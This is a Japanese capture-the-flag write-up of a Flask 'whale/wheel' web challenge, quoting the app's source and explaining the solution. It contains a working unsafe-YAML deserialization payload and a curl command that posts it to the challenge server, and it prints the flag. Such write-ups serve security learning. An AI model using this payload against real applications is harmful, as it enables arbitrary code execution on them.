

Not solved :(

# Try

http://chal.cybersecurityrumble.de:7780　にアクセス。




入力欄があって、[submit] を押すと入力した内容と画像が表示される。


```py
import yaml
from flask import redirect, Flask, render_template, request, abort
from flask import url_for, send_from_directory, make_response, Response
import flag

app = Flask(__name__)

EASTER_WHALE = {"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}

@app.route("/")
def index():
    return render_template("index.html.jinja", active="home")


class Whale:
    def __init__(self, name, image_num, weight):
        self.name = name
        self.image_num = image_num
        self.weight = weight
    
    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/whale", methods=["GET", "POST"])
def whale():
    if request.method == "POST":
        name = request.form["name"]
        if len(name) > 10: 
            return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
        image_num = request.form["image_num"]
        weight = request.form["weight"]
        whale = Whale(name, image_num, weight)
        if whale.__dict__ == EASTER_WHALE:
            return make_response(flag.get_flag(), 200) # ★
        return make_response(render_template("whale.html.jinja", w=whale, active="whale"), 200)
    return make_response(render_template("whale_builder.html.jinja", active="whale"), 200)


class Wheel:
    def __init__(self, name, image_num, diameter):
        self.name = name
        self.image_num = image_num
        self.diameter = diameter

    @staticmethod
    def from_configuration(config):
        return Wheel(**yaml.load(config, Loader=yaml.Loader))
    
    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/wheel", methods=["GET", "POST"])
def wheel():
    if request.method == "POST":
        if "config" in request.form:
            wheel = Wheel.from_configuration(request.form["config"])
            return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
        name = request.form["name"]
        image_num = request.form["image_num"]
        diameter = request.form["diameter"]
        wheel = Wheel(name, image_num, diameter)
        print(wheel.dump())
        return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
    return make_response(render_template("wheel_builder.html.jinja", active="wheel"), 200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)

```

★を実行できればフラグが得られそう。

ただし、`name`が長いので普通に入力しても、

```py
if len(name) > 10: 
    return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
```

によって弾かれてしまう。


Flaskに対するSSTIを試してみたが、Formで与えた値がstr型になっているので上手くいかなった。

* [CTF的 Flaskに対する攻撃まとめ](https://qiita.com/koki-sato/items/6ff94197cf96d50b5d8f)

入力された文字列が表示されるので`<script>`タグを埋め込んでXSSすることもできたりする。


# Solution

[writeup]

* https://cryptax.github.io/2020/11/01/whales.html

`config`パラメータをつけてPOSTリクエストを送ると`from_configuration()`が実行されることが分かる。

```py
@staticmethod
def from_configuration(config):
    return Wheel(**yaml.load(config, Loader=yaml.Loader))
```

```py
if "config" in request.form:
    wheel = Wheel.from_configuration(request.form["config"])
    return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
```

ここで、`yaml.load()`に任意のデータを与えることによって攻撃する。

>**Warning**: It is not safe to call yaml.load with any data received from an untrusted source! yaml.load is as powerful as pickle.load and so may call any Python function. Check the yaml.safe_load function though.
>> https://pyyaml.org/wiki/PyYAMLDocumentation

`yaml.load()`にはpythonオブジェクトを埋め込むことができるので、`flag.get_flag()`関数を`apply()`で呼び出すようにする。

`!!python/object/apply:flag.get_flag`

よって、以下を実行すると`name`にフラグが表示される。

```bash
curl -X POST http://chal.cybersecurityrumble.de:7780/wheel -d 'config={name: !!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}'
```

<!-- CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?} -->

## コメント

こういった背景もあってか、公式では`yaml.load()`ではなく`yaml.safe_load()`が推奨されていることを学んだ。

`config`パラメータをPOSTしたときのための処理があるのは気づいていたが、設定ファイルを読み込むためのものだと思ってスルーしてしまったのが甘かった。


